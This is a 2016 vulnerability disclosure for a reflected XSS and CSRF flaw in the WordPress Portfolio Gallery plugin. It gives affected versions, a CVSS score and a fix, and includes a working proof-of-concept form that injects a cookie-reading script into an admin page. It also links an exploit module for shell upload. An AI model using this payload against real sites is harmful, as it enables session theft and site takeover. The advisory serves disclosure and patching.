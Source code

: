 ```yaml
---
layout: single
title: Portfolio <= 2.1.10 Reflected XSS Disclosure
date: 2016-10-15
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - portfolio-gallery
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.
---
```

## Homepage
[https://wordpress.org/plugins/portfolio-gallery/](https://wordpress.org/plugins/portfolio-gallery/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in the `portfolio_gallery_print_html_nav` function found on line 276 of `/includes/admin/portfolio-gallery-admin-functions.php`, it is possible to execute scripts in the context of an admin user.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))


## Versions Affected
2.1.10 and below

## Solution
Upgrade to version 2.1.11 or later

## Proof of Concept
```xml
<form method="post" action="http://[target]/wp-admin/admin.php?page=portfolios_huge_it_portfolio">
  <input name="page_number" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;">
  <input type="submit" value="submit">
</form>
```

## WordPress Exploit Framework Module
[exploit/xss/reflected/portfolio\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/reflected/portfolio_reflected_xss_shell_upload.rb)

## WPVDB-ID
[8637](https://wpvulndb.com/vulnerabilities/8637)

## Disclosure Timeline
* **2016-08-30**: Vendor patched vulnerability
* **2016-10-15**: Published a POC with additional information due to no official disclosure being released to the public
